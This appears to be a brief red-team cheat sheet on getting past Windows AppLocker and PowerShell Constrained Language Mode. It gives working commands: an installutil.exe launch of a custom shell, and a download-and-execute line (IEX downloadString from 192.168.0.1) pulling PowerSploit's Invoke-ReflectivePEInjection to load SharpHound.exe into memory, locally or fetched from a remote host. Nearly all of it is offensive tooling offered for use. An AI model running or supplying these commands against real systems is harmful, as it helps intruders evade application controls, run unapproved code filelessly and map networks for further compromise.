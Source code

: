 # Applocker
## Check Applocker Policy
```
Get-ApplockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Check Powershell Language Mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
## Bypass CLM
[FLM-Shell](https://github.com/an3m0ne/FLM-Shell)
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```

## Bypass Applocker
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.0.1/Invoke-ReflectivePEInjection.ps1')

#local
$PEBytes = [IO.File]::ReadAllBytes('SharpHound.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"

#remote
$PEBytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.0.1/SharpHound.exe")
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"
```
